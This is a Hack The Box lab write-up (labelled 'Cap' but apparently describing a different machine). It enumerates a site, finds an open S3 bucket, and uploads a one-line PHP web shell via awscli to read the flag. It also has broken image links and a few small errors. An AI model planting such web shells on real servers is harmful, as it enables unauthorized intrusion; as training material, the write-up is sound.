







Welcome to my writeup version of the HTB machine Cap.


# TASK 1

I start with nmap to see what ports are open and what services are running:



Now lets see deeper information about versions and services.



# TASK 2

Inside the web page:


there are different features.

In the "contact" section there is a mail, `mail@thetoppers.htb`.

# TASK 3

In the absence of a DNS server, there is a linux file used to resolve hostnames associated to IP, which is `/etc/hosts/`.

# TASK 4

When it doesn't seem to be anything interesting on the main site, one of the first things to be enumerated are directories and subdomains.

Knowing the domain thanks to the email, and using wfuzz:

```
wfuzz -c --hl 234 -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.thetoppers.htb" http://thetoppers.htb
```

we discover that the only subdomain with a different response code is `s3.thetoppers.htb`.

# TASK 5

To access the subdomain we must also include the subdomain on /etc/hosts

In the subdomain theres only a JSON.



With a quick search we can find taht S3 is the subdomain used by Amazon AWS for object storage.
> For task completion is "Amazon S3"

# TASK 6

The command line utility to interact with the Amazon S3 is `awscli`.

# TASK 7 

The command to set up the utility instalation is:

```
aws configure
```

# TASK 8

We can list the S3 buckets with:



# TASK 9

Listing the bucket we can see that the web page uses PHP lenguaje.



# TASK 10

There is another feature on aws-cli which allows to upload a file. Knowing we are dealing with php:

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

then

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Now we can use the parameter `cmd`:


 
 Now, knowing where the flag is:

 ```
 http://thetoppers.htb/shell.php?cmd=ls+..
 ```

 

 ```
 http://thetoppers.htb/shell.php?cmd=cat+../flag.txt
 ```
 And there is the flag.